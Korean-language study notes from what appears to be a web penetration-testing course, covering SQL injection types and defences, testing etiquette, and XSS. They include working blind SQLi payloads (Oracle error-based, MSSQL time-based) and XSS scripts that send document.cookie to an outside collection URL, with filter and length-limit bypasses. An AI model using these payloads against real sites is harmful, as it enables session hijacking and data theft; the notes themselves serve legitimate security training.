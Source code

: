 # 6주차 수업 정리

보고서 
1.폰트 통일 (스타일, 크기, 색깔)   
제목부분.   
본문   
->글씨 컬러.X   
->bold. 굵은 글씨   
->진짜 중요하다. 빨간색.   

그림 테두리   
그림 캡션 ( 그림 10. 식별/인증 동시 ... )     
페이지 번호


2.사진
캡쳐 화면.

3.풀이 과정 디테일.   
이런 쿼리를 넣으면 서버에서 어떤 처리를 통해서 이런 결과가 나온다.

Blind SQLi 보고서.
step 1. 
참 조건, 거짓 조건

step 2. 
and ((select database())='normaltic') and 

---

## SQL Injection 


1.WHat?   
-> 임의의 SQL 질의문을 삽입해 실행하는 공격

2.시나리오   
-인증 우회, 데이터 추출, 변조   
+Web shell. DB : SQL 질의문. file upload.

3.공격 유형   
-UNION SQLi   
-Error based SQLi   
-Blind SQLi   

4.대응 방안   
-prepared Statemant   
-order by, table column 등에는 prepared 사용하지 못 함. -> white list 기반 필터링을 해야 함.   

필터링.   
-화이트 리스트 => 허락   
-블랙 리스트 => 금지. 우회의 여지가 있음.

---
## 모의해킹 주의할 점.

1.insert, delete, update 구문은 사용하지 않음.   
사용중인 데이터가 망가질 수 있음. 기업 입장에서는 매우 큰 일.

2.주석. 남용 X   

3.데이터 변조 금지   

---
게시판 검색 : 

sortingAd=date

sotingAd=,(case when ascii(substr((select user from dual), 1,1))=0 then 1 else (1/0) end)


정렬    
order by $GET_[param~~]   
(prepared 가 안 먹이는 경우.)


case when (조건) then (참일 떄) else (거짓일 때) end

substr = oracle db.   
dual = oracle db의 가상 테이블이라는 약속.

---
## time based SQLi

sotingAd=ASC;if substring((select%20user_name()),1,1)='a' waitfor delay '0:0:1'

첫 글자가 'a'라면 1초 딜레이.

** TIP   
UNION SQLi   
Error Based SQLi   
해당

select 1, id, 3, 4

select 1, pass, 3, 4

select 1, email, 3, 4

하나씩 해야 하는데   
concat 함수를 사용하면 한 번에 출력할 수 있음.

->   
select 1, concat(), 3,4,5 from member


# XSS
크로스 사이트 스크립팅   
: 이 취약점은 정말 많다.

Server Side vs Client Side

-> 서버에서 실행되는 코드
(php)

-> 클라이언트 측에서 실행되는 코드   
(웹 브라우저)

XSS = 클라이언트 측 코드를 삽입하는 공격.   
이용자의 웹 브라우저에서 실행됨.   
서버에서는 아무 영향이 없음.

SQLi = 대표적인 서버측 공격.   
XSS  = 웹 사이트를 쓰는 이용자들을 공격하는 방법.

HTML, Javascript 를 통해서 공격.

F12 -> Console -> ()   
const, let, var   
var 가 제일 무난

```
var text = 'hello'
alert(text)
```

```
페이지 이동

location.herf = "공격자 피싱 사이트";
location.replace = "";
```
```
Web Request

var i = new Image();
i.src = "attack URL?cookie=" + document.cookie
```

var i = new Image();   
=>   
\<img   > 의미.

i.src = "attack URL?cookie=" + document.cookie   
=> 
\<img src=''>

```
Keylogger
```
```
Crypto miner
```


XSS      
-> 클라이언트 측 코드를 삽입하는 공격.   
-> 피해자 컴퓨터 (웹 브라우저) 실행되게 만드는 공격.   

어떻게? 삽입하나?   
1. 서버에 저장하자! : Stored XSS   
\<script>\</script>   
\<script>alert()\</script>   = POC 코드. 증명용 코드.   
alert() 말고 cookie탈취나, keylogger 를 넣어서 사용할 수도 있음.    

만약 alert를 필터링했다고 하면?    
alert()    
confirm()    
prompt()    
location.herf=''

```
<script>var i = new Image();i.src = "attack URL?cookie=" + document.cookie </script>
```

session 탈취를 테스트할 수 있는 공격용 사이트.   
Request Bin   
https://public.requestbin.com/r

https://enideg1fqsaaa.x.pipedream.net 이것은 나의 임시서버.   
위 url로 session 탈취 코드를 넣어서 실행하면 requestbin 사이트에서 나옴.

```
<script>var i = new Image();i.src = "https://enideg1fqsaaa.x.pipedream.net?cookie=" + document.cookie;</script>
```
만약 길이 제한이 걸린다면?
```
<script>var i = new Image();</script>
<script>i.src = "attack URL?cookie=" + document.cookie;</script>
```

---
step 1. alert() 를 먼저 띄운다. -> POC코드이기 때문에.   
step 2. 공격 코드를 넣는다. session id    

만약에 안된다? F12 -> Console -> 빨간색 에러가 떠있을 확률이 높음.

---
과제.

1.XSS 공격 정리.   
2 XSS 1 ctf / alert 띄우기.   
--> 왜 본문에서는 안됐을까?   
3.SQL Injection 공격 기법 - 블로그 정리.   
4.웹 개발      
게시글 수정   
게시글 삭제   
게시글 검색   
5.Blind SQL Injection Python Code 작성.